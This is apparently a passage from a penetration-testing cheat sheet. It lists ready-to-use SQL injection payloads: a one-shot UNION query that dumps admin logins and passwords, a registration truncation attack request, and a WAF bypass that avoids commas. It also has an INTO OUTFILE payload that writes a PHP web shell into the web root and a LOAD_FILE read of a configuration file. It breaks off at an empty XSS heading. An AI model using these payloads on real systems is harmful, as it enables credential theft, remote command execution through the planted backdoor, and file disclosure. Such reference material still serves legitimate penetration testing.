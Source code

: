 ```
id=1' UNION SELECT 1,(SELECT (@a) FROM (SELECT (@a:=0x00),(SELECT (@a) FROM (mytable.users) WHERE (@a) IN (@a:=concat(@a,':::',id,':::',login,':::',password)) AND is_admin='1'))a);-- -
```

* [defcon.ru/web-security/2320/](https://defcon.ru/web-security/2320/)
* [www.securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-1.html](http://www.securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-1.html)
* [dba.stackexchange.com/questions/4169/how-to-use-variables-inside-a-select-sql-server](https://dba.stackexchange.com/questions/4169/how-to-use-variables-inside-a-select-sql-server)
* [www.mssqltips.com/sqlservertip/6038/sql-server-derived-table-example/](https://www.mssqltips.com/sqlservertip/6038/sql-server-derived-table-example/)



### Truncation Attack

```
POST /index.php HTTP/1.1
Host: 127.0.0.1

name=snovvcrash&email=admin%example.com++++++++++11&password=qwe12345
```

* [www.youtube.com/watch?v=F1Tm4b57ors](https://www.youtube.com/watch?v=F1Tm4b57ors)



### Commas blocked by WAF

```
id=-1' UNION SELECT * FROM (SELECT 1)a JOIN (SELECT table_name from mysql.innodb_table_stats)b ON 1=1#
```



### Write File

```
id=1' UNION ALL SELECT 1,2,3,4,"<?php if(isset($_REQUEST['c'])){system($_REQUEST['c'].' 2>&1' );} ?>",6 INTO OUTFILE 'C:\\Inetpub\\wwwroot\\backdoor.php';#
```



### Read File

```
id=1' UNION ALL SELECT LOAD_FILE('c:\\xampp\\htdocs\\admin\\db.php'),2,3-- -
```




## XSS



### Redirections


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)